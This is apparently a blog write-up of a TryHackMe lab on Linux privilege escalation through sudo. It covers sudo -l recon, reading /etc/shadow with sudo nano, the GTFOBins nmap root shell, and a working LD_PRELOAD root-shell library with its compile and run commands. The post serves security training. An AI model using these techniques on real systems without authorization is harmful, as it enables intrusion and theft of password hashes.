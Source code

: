 ```yaml
---
layout: post
title: THM Linux Privilege Escalation - sudo
subtitle: Misusing sudo
date: 2025-04-05
tags:
  - pentest
  - tryhackme
  - redteam
  - linux
  - privesc
  - sudo
cover-img: /assets/img/sudo-priv-esc.png
thumbnail-img: /img/path/linux-priv-esc.png
comments: true
mathjax: true
---
```

# Nature of the Task

In this task the goal is to use use `sudo` in a variety of ways to access information that would normally be out of limits to a low privilege user.

# A bit of `sudo` recon...

The first thing to do is to to run `sudo -l` as the `karen` (low privilege) user to see what's available to us:

```sh
$ sudo -l
Matching Defaults entries for karen on ip-10-10-92-255:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-92-255:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

We can run 3 programs with `sudo`, namely `find`, `less`, and `nano`.

That answers the first question! Hooray!

# Capture the Flag! `find` and `cat`

The next question is to obtain the contents of `flag2.txt`. We can simply run `find` to locate the file on the system, we don't even need to run it with `sudo`!

```sh
$ find / -name "flag2.txt" 2>/dev/null
/home/ubuntu/flag2.txt
```
We can simply `cat /home/ubuntu/flag2.txt` to obtain our flag. No `sudo` needed!

# GTFOBins! `sudo nmap`

The next question requires a bit of research. *If* we had `sudo` access to `nmap`, how could we leverage this to obtain a `root` shell?

Let's head over to [GTFOBins](https://gtfobins.github.io/) and see what being able to run `nmap` with `sudo` could give us!

![[GTFOBins-nmap-search.png]]

Hmmm.... Shell? Sudo? Looks promising!

![[GTFOBins-nmap-sudo.png]]

So, looks like `sudo nmap --interactive` is enough to give us an interactive `root` shell.

# Hashed Passwords

Since we can run `sudo nano` we can simply open `/etc/shadow` and see the hash of Frank's password!

![[nano-etc-shadow-linux-priv-esc.png]]

# `LD-PRELOAD`

If our `sudo -l` had found that `env_keep+=LD_PRELOAD` we could have leveraged this to get a root shell. On either the target or our attacking machine, we'd need to compile the following C source code  (`shell.c`):

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

We'd compile with the following parameters:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We'd need to get it on the target in a writable directory that we could execute from, and then we'd run it as follows:

```sh
sudo LD_PRELOAD=/home/user/ldpreload/shell.so <any binary we can run with sudo>
```

# Recap and Takeaways

- `sudo -l` is your first stop in any privilege escalation attempt — it reveals what commands can be run as root.
    
- You don’t always need `sudo` to find flags; simple tools like `find` and `cat` still go a long way.
    
- GTFOBins is an essential resource — it tells you exactly how to weaponize `sudo` permissions for common binaries like `nmap`.
    
- Tools like `nano` and `less` may seem harmless, but with `sudo`, they let you read protected files like `/etc/shadow`.
    
- The `LD_PRELOAD` technique is powerful — if environment variables are preserved with `sudo`, it can be used to inject a shared library and pop a root shell.